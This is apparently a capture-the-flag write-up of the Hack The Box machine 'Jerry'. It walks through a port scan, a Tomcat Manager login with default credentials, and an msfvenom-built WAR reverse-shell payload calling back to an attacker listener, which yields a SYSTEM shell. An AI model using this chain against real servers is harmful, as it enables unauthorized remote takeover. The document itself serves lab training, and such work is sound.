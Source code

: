 ```yaml
---
title: Hack The Box - Jerry (Without Metasploit)
date: 2021-01-17 13:58:00 +0800
categories: [hackthebox]
tags: [windows, tomcat]
image:
    path: /assets/images/jerry.png
---
```


# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.95 jerry.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ rustscan --accessible -a jerry.htb -r 1-65535 -- -sT -sV -sC -Pn
File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.95:8080
Starting Script(s)
Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-16 20:00 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Initiating Connect Scan at 20:00
Scanning jerry.htb (10.10.10.95) [1 port]
Discovered open port 8080/tcp on 10.10.10.95
Completed Connect Scan at 20:00, 0.02s elapsed (1 total ports)
Initiating Service scan at 20:00
Scanning 1 service on jerry.htb (10.10.10.95)
Completed Service scan at 20:00, 6.61s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.95.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.41s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.04s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Nmap scan report for jerry.htb (10.10.10.95)
Host is up, received user-set (0.016s latency).
Scanned at 2021-01-16 20:00:28 UTC for 7s

PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds
```

# Enumeration

## Port 8080 `Apache Tomcat/Coyote JSP engine 1.1`

![](/assets/images/jerry1.png)

We are presented with the `Apache Tomcat`'s interface. When we clicked on `Manager App`, we are prompted for credentials.

![](/assets/images/jerry2.png)

I tried the default credentials `tomcat:s3cret` and it logged us in!

![](/assets/images/jerry3.png)

# Exploitation

Since we have access to the `Manager App` page, this means we can upload a malicious `.WAR` file which I will be generating with `msfvenom`.

```bash
$ msfvenom -a x64 -p java/jsp_reverse_bind_tcp LHOST=10.10.XX.XX LPORT=1337 -f war > shell.war
Payload size: 1118 bytes
Final size of war file: 1118 bytes
```

![](/assets/images/jerry4.png)

After it is uploaded, we see that the `.WAR` file we uploaded has been deployed at `/shell`.

![](/assets/images/jerry5.png)

Now, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337                                                             
listening on [any] 1337 ...
```

And browse to `/shell`. We will see that on our listener, we get a shell as `SYSTEM`!

```
$ nc -v jerry.htb 80 
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.95] 49464
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

# user.txt & root.txt

Both flags are stored as a file called `2 for the price of 1.txt`, available in a folder called `flags` on the `Administrator`'s Desktop.

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004XXXXXXXXXXXXXXXXXXXXXXXXXXXX

root.txt
04a8XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !